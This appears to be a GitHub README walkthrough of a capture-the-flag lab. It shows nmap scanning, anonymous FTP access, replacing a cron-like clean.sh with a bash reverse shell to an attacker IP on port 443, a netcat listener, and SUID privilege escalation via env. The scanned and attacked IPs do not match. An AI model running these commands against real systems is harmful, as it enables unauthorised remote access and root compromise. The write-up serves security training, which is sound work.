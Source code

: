 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/068504b7-6b64-4f43-9cf3-dfd3332ff13c"></picture>
<h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/b30f7ed0-a42b-4f65-a21e-bbac74ebf87e"></picture></h1>

## **Recognition**
  ```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/d3212d58-f71f-447a-8b84-6fb548b85688)
![image](https://github.com/user-attachments/assets/75f18b27-5568-4fc8-99c2-4c25d613c19b)

## **Port 21 where the FTP service runs has the “anonymous” user enabled by default and does not require a password.**
```bash
ftp 10.10.44.169
```
Usuario : anonymous <br>
Passwd : 
![image](https://github.com/user-attachments/assets/bb2949af-0f23-4823-a4c4-d56bd78dc1a6)

## **In researching we found 3 files, one of which appears to be running a looping action. Let's download it**
```bash
cat clean.sh
```
![image](https://github.com/user-attachments/assets/63ff8512-fe5e-47a7-b812-c4e7a31521f4)

## **We modify the file and put a code that sends us a shell which we will intercept with our attacking machine**
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.21.118.81/443 0>&1
```
![image](https://github.com/user-attachments/assets/7a0f08e4-bad8-4f40-bd28-035f2013d764)

```bash
ftp 10.10.44.169
```
Usuario : anonymous <br>
Passwd : 

```bash
cd scripts
put clean.sh
```
![image](https://github.com/user-attachments/assets/3b41d96f-4567-4a9f-9d7a-cd8eda88acaf)

```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/cf470034-3e08-486a-835f-903af176b1a5)



![image](https://github.com/user-attachments/assets/40406fc6-c84b-4b1b-b3c5-8a7cbebd9431)

```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

![image](https://github.com/user-attachments/assets/7cd147de-4cb3-444c-916a-69a6a053c33a)


```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/c8a4e000-6389-4743-b81a-dd87af4c42b5)

```bash
/usr/bin/env /bin/sh -p
```
![image](https://github.com/user-attachments/assets/50304f5a-5e61-4c48-b444-c5b0b6bed376)


